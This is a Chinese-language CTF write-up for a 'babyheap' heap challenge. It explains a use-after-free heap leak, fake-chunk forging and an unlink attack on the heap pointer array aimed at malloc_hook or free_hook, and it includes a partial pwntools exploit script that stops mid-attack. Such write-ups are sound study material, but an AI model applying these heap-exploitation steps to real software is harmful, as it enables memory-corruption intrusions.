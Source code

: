 ```
      return __readfsqword(0x28u) ^ v3;
    }
```
由于它这个只能用fastbin，所以正常方法只能搞一个堆地址出来，所幸没有开pie，bss段存储着堆地址数组
emmm到这我就卡住了，本来还寻思用iofile做一下，后来发现好像构造不出来大小为0x30的堆块
看了大佬的wp才知道是用unlink做。。。
首先泄露堆地址，利用uaf使fd指针指向伪造堆块，之后用一堆fastbin的堆块伪造一个大的堆块使其落入unsortedbin，而后在后边的堆块里边构造unlink条件，使其fd，bk指向heaplst，触发unlink，这样就任意地址读写了，改malloc_hook或者free_hook都可以
为什么看了大佬的wp之后就感觉题目好简单，还有就是虚拟机真的该换了，环境太老了。
```python
    from pwn import *
    context.log_level = 'debug'
    context.arch = "amd64"
    io = process('./babyheap')
    elf = ELF('babyheap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    
    def add(idx,content):
    	io.recvuntil('Choice:')
    	io.sendline('1')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.send(content)
    def delete(idx):
    	io.recvuntil('Choice:')
    	io.sendline('4')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    def edit(idx,content):
    	io.recvuntil('Choice:')
    	io.sendline('2')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.send(content)
    def show(idx):
    	io.recvuntil('Choice:')
    	io.sendline('3')
    	io.recvuntil('Index:')
    	io.sendline(str(idx))
    heaplst = 0x602080
    sleep(3)
    add(0,'A'*0x1+'\n')
    add(1,'B'*0x1+'\n')
    add(2,'C'*0x1+'\n')
    add(3,'D'*0x1+'\n')
    add(4,p64(0xa0)+p64(0x31)+p64(heaplst - 0x18) + p64(heaplst - 0x10))
    add(5,p64(0x30)+p64(0x30)+'\n')
    delete(1)
    delete(0)
    show(0)
    leak = u64(io.recvuntil('\n')[:4].strip('\n').ljust(8,'\x00'))
    log.success(hex(leak))
    heap_base = leak - 0x30
    
    edit(0,p64(heap_base + 0x20) + p64(0) + p64(0) + p64(0x31))
    add(6,p64(0) + p64(0xa1)+'\n')
    add(7,'A'*0x8+p64(0xa1)+'\n' )
    
    delete(1)
    
    show(1)
```